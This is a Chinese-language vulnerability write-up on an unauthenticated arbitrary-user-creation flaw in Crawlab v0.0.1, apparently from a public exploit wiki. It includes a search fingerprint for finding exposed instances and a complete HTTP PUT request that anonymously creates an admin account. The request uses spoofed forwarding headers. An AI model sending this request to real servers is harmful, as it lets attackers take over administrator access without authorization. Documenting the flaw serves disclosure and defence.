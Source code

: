 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b-20220313133455667.png)

首先查看路由位置 main.go 文件

![img](/assets/PeiQi-Wiki/img/1639305087766-21949d4c-a274-45e2-b1ed-2b12a2b6450d.png)

```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![img](/assets/PeiQi-Wiki/img/1639305199370-192f958d-1a96-4842-8f12-7dc32376074d.png)

根据字段生成添加用户的请求

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![img](/assets/PeiQi-Wiki/img/1639305372407-b81e6efc-2dde-403e-a7ad-ce5d0dd7cfa9.png)

![img](/assets/PeiQi-Wiki/img/1639305414874-3dc8bd9e-1d3d-44a0-a8a1-8c0d6affcddb.png)